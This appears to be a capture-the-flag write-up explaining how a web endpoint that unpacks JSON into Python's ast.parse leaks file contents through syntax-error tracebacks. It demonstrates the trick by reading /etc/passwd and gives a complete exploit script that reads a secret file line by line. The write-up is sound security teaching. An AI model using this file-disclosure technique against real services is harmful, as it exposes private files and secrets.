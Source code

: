 # Online Python Compiler

This is an easy server side challenge

## Overview

We're given a challenge that allows us to edit Python code online. Syntax checks are performed server-side using `ast.parse`, and the source code is passed by unpacking `request.json` into the function call. If an exception is thrown, the traceback will be returned to us.

Our goal is to read the content of `secret.py`

Since the source code is nearly non-existent, the vulnerability clearly lies in how `ast.parse` is called:

```py
ast.parse(**request.json)
```

Let's review the documentation for `ast.parse`:

```py
parse(
    source,
    filename='<unknown>',
    mode='exec',
    *,
    type_comments=False,
    feature_version=None,
    optimize=-1
)
    Parse the source into an AST node.
    Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
    Pass type_comments=True to get back type comments where the syntax allows.
```

Although we're not able to execute arbitrary code, there's something interesting here:

> Equivalent to `compile(source, filename, mode, PyCF_ONLY_AST)`

`compile` is known to be unsafe if used in a certain way. In fact, we can read files by causing a syntax error. For example:

```py
>>> compile(".", "/etc/passwd", "exec")
Traceback (most recent call last):
  File "<python-input-3>", line 1, in <module>
    compile(".", "/etc/passwd", "exec")
    ~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/etc/passwd", line 1
    root:x:0:0:Super User:/root:/bin/bash
    ^
```

To read multiple lines, we can add a newline before the dot, like this:

```py
compile("\n.", "/etc/passwd", "exec")
```

# Final exploit

```py
import requests

URL = "http://localhost:3000"

for x in range(32):
    leak_source = "\n"*x + "."
    response = requests.post(f"{URL}/check", json={
        "source": leak_source,
        "filename": "/app/secret.py"
        })
    leak = response.json()["error"].split("\n")[-4].strip()
    
    if leak == ".":
        break
    
    print(leak)
```